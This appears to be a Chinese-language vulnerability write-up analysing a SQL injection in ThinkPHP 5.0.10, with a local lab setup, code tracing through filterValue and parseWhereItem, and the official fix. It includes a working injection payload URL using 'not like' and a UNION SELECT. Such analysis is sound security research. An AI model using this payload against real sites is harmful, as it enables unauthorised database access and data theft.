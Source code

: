 # ThinkPHP5.0.10 SQL注入

Author: H3rmesk1t

Data: 2021.08.13

# 漏洞概要
- 本次漏洞存在于 Mysql 类的 parseWhereItem 方法中，由于程序没有对数据进行很好的过滤，直接将数据拼接进 SQL 语句；再一个， Request 类的 filterValue 方法漏过滤 NOT LIKE 关键字，最终导致 SQL注入漏洞的产生
- 漏洞影响版本： ThinkPHP=5.0.10

# 初始配置

获取测试环境代码

```bash
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d24f5ac50d22475ea572e510632df2e1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

将 composer.json 文件的 require 字段设置成如下

```bash
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.10"
},
```

然后执行 `composer update` ，并将 `application/index/controller/Index.php` 文件代码设置如下

![在这里插入图片描述](https://img-blog.csdnimg.cn/1835c360adee4a9380b9451fc4a131ea.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        $result = db('users')->where(['username' =$username])->select();
        var_dump($result);
        return '<style type="text/css">*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:)</h1><pThinkPHP V5<br/><span style="font-size:30px">十年磨一剑 - 为API开发设计的高性能框架</span></p><span style="font-size:22px;">[ V5.0 版本由 <a href="http://www.qiniu.com" target="qiniu">七牛云</a独家赞助发布 ]</span></div><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_bd568ce7058a1091"></thinkad>';
    }
}
?>
```

在 `config/database.php` 文件中配置数据库相关信息，并开启 `config/app.php` 中的 `app_debug` 和 `app_trace` ，创建数据库信息如下

```sql
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'H3rmesk1t');
```
# 漏洞利用

Payload

```ph
http://127.0.0.1/cms/public/index.php/index/index?username[0]=not%20like&username[1][0]=%%&username[1][1]=233&username[2]=)%20union%20select%201,user()%23
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b238b56d42d742eab36f90349b3bf7f3.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞分析

首先，不管以哪种方式传递数据给服务器，这些数据在 ThinkPHP 中都会经过 `Request` 类的 `input` 方法，数据不仅会被强制类型转换，还都会经过 `filterValue` 方法的处理，该方法是用来过滤表单中的表达式，但是代码少过滤了 `NOT LIKE` ，而本次漏洞正是利用了这一点

跟进 `thinkphp/library/think/Request.php`，在 `input` 方法中，传入的数据会经过 `filterValue` 过滤和强制类型转换，然后返回

![在这里插入图片描述](https://img-blog.csdnimg.cn/0dc7562d733b40408bcef48b15740996.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进 `filterValue` 方法，查看是如何实现的，发现调用到 `filterExp` 方法，可以看到没有过滤 `NOT LIKE`

![在这里插入图片描述](https://img-blog.csdnimg.cn/410c5c53790b41a9be838ea0397570f1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

继续跟进 ThinkPHP处理 SQL 语句的方法，首先程序先调用 `Query` 类的 `where` 方法，通过其 `parseWhereExp` 方法分析查询表达式，然后再返回并继续调用 `select` 方法准备开始构建 `select` 语句

![在这里插入图片描述](https://img-blog.csdnimg.cn/2a2a4df416a24d009187ce18d000f330.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5f6348d163c84d78884284e0442114d1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

此处的 `$this->builder` 为 `think\db\builder\Mysql` 类，而 `Mysql` 类继承于 `Builder` 类，所以会继续调用到 `Builder` 类的 `select` 方法，该方法调用了`parseWhere` 方法，然后调用了 `buildWhere` 方法，该方法继续调用了 `parseWhereItem` 方法，跟进该方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/bba6e107e264477c80505659edf5e5c9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5c0dabb4b6b04dc7a618510b717429f5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

此处到操作符 `$exp` 为 `NOT LIKE` 或 `LIKE` 时，MySQL的逻辑控制符可控，后进行拼接返回带入SQL语句中执行，导致了SQL注入漏洞

![在这里插入图片描述](https://img-blog.csdnimg.cn/d7ccb54cc93445eb9454fac2ff94eb27.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/d26d15a2ba4e460783ec90ed7f364373.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

执行的SQL语句为：
```sql
(`username` NOT LIKE '%%' ) UNION SELECT 1,USER()# `username` NOT LIKE '233')
```

完整的方法调用，从下往上

![在这里插入图片描述](https://img-blog.csdnimg.cn/06ab809b6794427e8ea486d0f5420010.png#pic_center)
# 漏洞修复

在 5.0.10 之后的版本，官方的修复方法是：在 `Request.php` 文件的 `filterValue` 方法中，过滤掉 `NOT LIKE` 关键字，而在 5.0.10 之前的版本中，这个漏洞是不存在的，但是其代码也没有过滤掉 `NOT LIKE` 关键字；经过调试，发现原来在 5.0.10 之前的版本中，其默认允许的表达式中不存在 `NOT LIKE`，所以即便攻击者可以通过外部控制该操作符号，也无法完成攻击，相反， 5.0.10 版本其默认允许的表达式中，存在 `NOT LIKE` ，因而可以触发漏洞

![在这里插入图片描述](https://img-blog.csdnimg.cn/a4c2903335d94c5d92f9f32bdee3c473.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 攻击总结

参考Mochazz师傅的审计流程

![在这里插入图片描述](https://img-blog.csdnimg.cn/691f1e6404b946928440a5182373f70b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

